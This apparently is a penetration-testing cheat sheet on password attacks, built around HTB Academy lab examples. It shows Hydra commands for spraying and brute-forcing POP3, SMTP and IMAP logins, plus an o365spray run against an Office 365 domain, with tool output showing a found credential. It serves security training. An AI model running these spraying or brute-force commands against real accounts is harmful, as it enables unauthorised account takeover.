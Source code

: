 
## 🔐 Password Attacks

### Traditional Email Service Attacks

#### HTB Academy Hydra Password Spray Example
```bash
# HTB Academy POP3 password spraying
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

#### Additional Hydra Examples
```bash
# SMTP brute force
hydra -l admin -P passwords.txt smtp://target_ip:25

# IMAP password spray
hydra -L users.txt -p 'Spring2024!' imap://target_ip:143

# Multiple protocols
hydra -L users.txt -P passwords.txt target_ip smtp
```

### Cloud Service Password Attacks

#### HTB Academy O365 Password Spraying
```bash
# HTB Academy O365 password spray example
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```